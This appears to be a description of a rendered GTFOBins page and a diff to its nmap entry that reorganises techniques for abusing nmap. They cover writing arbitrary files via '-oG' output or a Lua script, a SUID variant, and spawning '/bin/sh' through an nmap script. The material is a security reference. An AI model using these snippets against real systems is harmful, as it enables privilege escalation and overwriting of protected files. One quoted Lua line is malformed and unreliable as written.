

Before and after one commit to GTFOBins/GTFOBins.github.io, a Jekyll site: the page built from _gtfobins/nmap.md, in a window 1280 px wide and 1400 px high, scrolled down 2777 px. Shown: the whole window, without its empty margins (208-1071 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; before the commit the page ends 3893 px from its top, so only the background shows below that; some of the changed text lies outside the part shown.

Commit message:
Fix nmap SUID file-write

```diff
--- a/_gtfobins/nmap.md
+++ b/_gtfobins/nmap.md
@@ -87,6 +87,10 @@ functions:
         TF=$(mktemp)
         echo 'lua -e 'local f=io.open("file_to_write", "wb"); f:write("data"); io.close(f);' > $TF
         nmap --script=$TF
+    - description: The payload appears inside the regular nmap output.
+      code: |
+        LFILE=file_to_write
+        nmap -oG=$LFILE DATA
   file-read:
     - code: |
         TF=$(mktemp)
@@ -108,9 +112,9 @@ functions:
         TF=$(mktemp)
         echo 'os.execute("/bin/sh")' > $TF
         ./nmap --script=$TF
-    - description: This will over-write files with nmap output, use with caution.
+  suid:
+    - description: The payload appears inside the regular nmap output.
       code: |
-        sudo touch /etc/filecantbetouched
-        nmap 127.0.0.1 -oN=/etc/filecantbetouched
-        cat /etc/filecantbetouched
+        LFILE=file_to_write
+        ./nmap -oG=$LFILE DATA
 ---
```
